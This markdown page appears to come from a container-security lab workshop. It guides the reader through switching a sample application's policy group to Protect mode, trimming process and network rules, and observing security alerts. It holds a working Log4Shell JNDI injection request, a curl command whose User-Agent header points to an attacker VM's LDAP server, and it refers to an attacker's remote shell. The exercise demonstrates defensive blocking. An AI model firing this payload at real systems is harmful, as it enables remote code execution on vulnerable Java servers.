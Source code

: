 +++
title = "Protect sample-app"
weight = 21
+++

Go to **Policy > Groups** and choose the `nv.sample-app.default` group.

Switch the mode of this group to **Protect**.

Go to process profile rules and delete all rules but the ones for `pause` and `java`.

Execute any command in the remote shell on the attacker01 vm and see that its blocked.

You will have an alert under **Notifications > Security Events**.

Go to **Policy > Network Rules** and delete the rule

* From `nv.sample-app.default` to `external`

Execute the request to trigger the attack:

**Run the following commands on the victim01 VM.**

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

You will have an alert under **Notifications > Security Events**.
